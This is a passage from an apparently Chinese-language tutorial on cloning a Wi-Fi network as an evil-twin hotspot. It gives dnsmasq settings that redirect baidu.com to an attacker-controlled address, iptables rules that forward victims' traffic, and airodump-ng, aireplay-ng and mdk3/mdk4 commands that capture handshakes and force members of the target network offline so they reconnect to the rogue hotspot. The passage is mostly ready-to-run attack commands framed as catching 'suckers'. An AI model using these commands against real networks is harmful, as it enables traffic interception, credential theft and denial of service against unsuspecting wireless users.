 ```
sudo vi /etc/dnsmasq.conf
添加以下内容:
resolv-file=/etc/resolv.conf //设置resolv目录
strict-order
listen-address=192.168.199.113 //这个ip是本机ip，如果只想本地访问可以填写127.0.0.1

address=/baidu.com/192.168.178.99 //注意，这一步很重要，需要在这里设置泛解析
address=/111.com/220.181.38.148

server=8.8.8.8
//设置谷歌dns为首选dns
server=114.114.114.114

sudo vi /etc/resolv.conf
添加nameserver为本机ip地址
```

<br/> 重启dnsmasq服务

```
sudo service dnsmasq restart
```

设置iptables进行流量转发:

```
//使用iptables编写规则：
iptables -t nat -A POSTROUTING -s 192.168.199.0/24 -j SNAT --to 192.168.178.99

iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
//对eth0进行源nat
iptables -A FORWARD -i wlan1 -o eth0 -j ACCEPT
//转发能上网的无线网卡流量
iptables -A FORWARD -p tcp --syn -s 192.168.199.0/24 -j TCPMSS --set-mss 1356
iptables-save //保存
```

克隆Wi-Fi后成功获取到成员进入网络提示信息<br/>  

<br/> 7.但是我们也不能白等新的冤大头连上我们的热点，所以我们可以对目标AP的成员使用断网攻击使其强制掉线重连<br/> aireplay-ng攻击：

```
//先对目标AP进行锁定监听并保存抓到的握手包
sudo airodump-ng &lt;device1&gt; --bssid=&lt;target bssid&gt; --channel=&lt;channel&gt; -w &lt;文件保存路径&gt;
//然后打开一个新的命令窗口进行攻击
sudo aireplay-ng -0 0 -a &lt;target AP BSSID&gt; -c &lt;target member MAC&gt; &lt;device1&gt;
```

mdk3/mdk4攻击：

```
vi blacklist //创建一个黑名单文件，并且把目标的BSSID填进去
sudo mdk3 &lt;device&gt; d -s 1000 -b blacklist.txt -c &lt;target channel&gt; //执行攻击
//mdk4同理,只需要把mdk3换成mdk4
```
